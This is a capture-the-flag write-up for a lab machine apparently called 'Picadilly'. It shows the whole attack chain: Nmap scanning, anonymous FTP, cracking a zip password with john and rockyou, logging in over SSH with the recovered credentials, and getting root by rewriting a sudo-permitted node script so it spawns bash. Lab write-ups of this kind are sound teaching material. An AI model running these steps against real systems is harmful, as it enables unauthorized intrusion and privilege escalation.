 # Picadilly

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Node_1.png)

We see what appears the file called secretitopicaron.zip.

Similarly, I scanned the SSH port, but didn't find anything important

## Analyzing "secretitopicaron.Zip"

First we need to extract the hash from the .zip file. we use `zip2jonh` tool:

```ruby
zip2john secretitopicaron.zip > hash.txt
```

Once we have successfully extracted the file, our next step is to attempt to crack the password hash contained in the hash.txt file.

```ruby
john --wordlist=rockyou.txt hash.txt
```

```ruby
secretitopicaron.zip/password.txt:password1:password.txt:secretitopicaron.zip::secretitopicaron.zip
1 password hash cracked, 0 left
```

Finally, we obtain the password, `password1` . Now we can try extract secretetitopicaron.zip.
if we extract the file, we obtain a password file.

```ruby
mario:laKontraseñAmasmalotaHdelbarrioH
```

These are possible credentials for the SSH service.


## Intrusion

If we use the new credentials, we can access the SSH service.

![alt text](Imagenes/Node_3.png)


## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for mario on 0730eda13522:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 0730eda13522:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js

```

We can see that we can execute the script in /home/mario, so we can try to edit this file to spawn a shell with root privileges.


Therefore, we need to edit the script with the following code:

```ruby
const { execSync } = require('child_process');
execSync('/bin/bash', {stdio: 'inherit'});

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo /usr/bin/node /home/mario/script.js
```
![alt text](Imagenes/Node_2.png)
